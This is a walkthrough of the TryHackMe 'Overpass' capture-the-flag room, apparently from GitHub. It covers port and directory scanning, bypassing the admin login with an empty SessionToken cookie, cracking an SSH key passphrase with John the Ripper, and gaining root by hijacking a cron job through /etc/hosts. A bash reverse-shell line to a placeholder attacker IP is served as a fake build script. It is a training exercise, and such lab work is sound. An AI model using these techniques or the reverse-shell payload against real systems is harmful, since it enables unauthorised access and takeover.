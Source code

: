 # [Overpass](https://tryhackme.com/room/overpass)

## What happens when some broke CompSci students make a password manager?

# Overpass

## What happens when a group of broke Computer Science students try to make a password manager? Obviously a perfect commercial success!

### Hack the machine and get the flag in user.txt

1. Start by scanning the target machine to identify open ports and running services

```bash
nmap <TARGET_IP>
```

[SCREEN01]

2. Enumerate directories and files on the web server to discover hidden endpoints

```bash
gobuster dir -u http://<TARGET_IP> -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

[SCREEN02]

3. Navigate to `http://<TARGET_IP>/admin/` and examine the login functionality. View the page source and analyze `login.js`

```javascript
async function login() {
  const usernameBox = document.querySelector("#username");
  const passwordBox = document.querySelector("#password");
  const loginStatus = document.querySelector("#loginStatus");
  loginStatus.textContent = "";
  const creds = { username: usernameBox.value, password: passwordBox.value };
  const response = await postData("/api/login", creds);
  const statusOrCookie = await response.text();
  if (statusOrCookie === "Incorrect credentials") {
    loginStatus.textContent = "Incorrect Credentials";
    passwordBox.value = "";
  } else {
    Cookies.set("SessionToken", statusOrCookie);
    window.location = "/admin";
  }
}
```

4. Exploit the flawed authentication logic by manually setting a SessionToken cookie. Open browser developer tools (F12) and execute in the console

```javascript
Cookies.set("SessionToken", "");
```

[SCREEN04]

5. Refresh the `/admin/` page. This grants access to the admin panel, which contains James's RSA private key. The RSA key is password-protected. Extract and crack the password
   - The password is `james13`

```bash
chmod 600 rsa
/opt/john/ssh2john.py rsa > rsa.hash
john rsa.hash --wordlist=/root/Tools/wordlists/rockyou.txt
ssh -i rsa james@<TARGET_IP>
```

[SCREEN05]

6. Once logged in as james, locate and read the user flag

```bash
cat user.txt
```

[SCREEN06]

---

### Escalate your privileges and get the flag in root.txt

1. Examine the user's home directory for any interesting files. The todo.txt file hints at an automated build process that might be exploitable

```bash
cat todo.txt
```

```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

2. Check for scheduled tasks that might run with elevated privileges

```bash
cat /etc/crontab
```

3. Create a malicious build script and set up listeners

```bash
mkdir -p downloads/src/
echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1' > downloads/src/buildscript.sh
python -m SimpleHTTPServer 80
nc -lvnp 4444
```

4. Since we have write access to `/etc/hosts` as james, we can redirect `overpass.thm` to our attacking machine

```bash
nano /etc/hosts
cat /etc/hosts
```

[SCREEN07]

5. Once you receive the reverse shell connection, verify root access and retrieve the final flag

```bash
cat /root/root.txt
```
